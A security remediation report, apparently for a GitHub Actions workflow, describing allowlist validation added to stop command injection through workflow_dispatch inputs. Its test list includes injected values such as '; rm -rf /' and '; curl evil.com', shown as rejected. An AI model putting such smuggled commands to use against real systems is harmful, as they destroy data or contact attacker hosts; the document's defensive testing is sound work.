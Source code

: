 ## Functionality Preservation

### ✅ Workflow Behavior Maintained
- **All Valid Inputs**: `all`, `precommit`, `docker`, `ci` work as before
- **Default Values**: Default behavior unchanged (`all` validation)
- **Boolean Processing**: `true`/`false` alert behavior preserved
- **Error States**: Workflow still fails appropriately on invalid conditions

### ✅ Performance Monitoring Features
- **Task 4.1.4 Compliance**: All performance monitoring capabilities intact
- **Report Generation**: Performance reports continue to generate
- **Trend Analysis**: Performance trend analysis unaffected
- **Artifact Upload**: All artifacts uploaded as configured

## Validation Testing

### Manual Security Testing
```bash
# Test Case 1: Valid inputs (should work)
validation_type="all" → ✅ Accepted
validation_type="precommit" → ✅ Accepted
alert_on_regression="true" → ✅ Accepted
alert_on_regression="false" → ✅ Accepted

# Test Case 2: Invalid inputs (should be rejected)
validation_type="invalid" → ❌ Rejected with error
validation_type="; rm -rf /" → ❌ Rejected with error
alert_on_regression="maybe" → ❌ Rejected with error
alert_on_regression="; curl evil.com" → ❌ Rejected with error
```

### Workflow Syntax Validation
- **YAML Structure**: Workflow syntax verified
- **Action References**: All GitHub Actions remain valid
- **Environment Variables**: All environment configurations preserved

## Security Posture Improvement

### Before Remediation:
- ❌ **Command Injection**: Possible via workflow_dispatch inputs
- ❌ **Input Validation**: No validation of user-provided values
- ❌ **Shell Safety**: Direct variable expansion in commands

### After Remediation:
- ✅ **Command Injection**: Prevented via allowlist validation
- ✅ **Input Validation**: Strict validation with immediate failure
- ✅ **Shell Safety**: Proper quoting and variable isolation
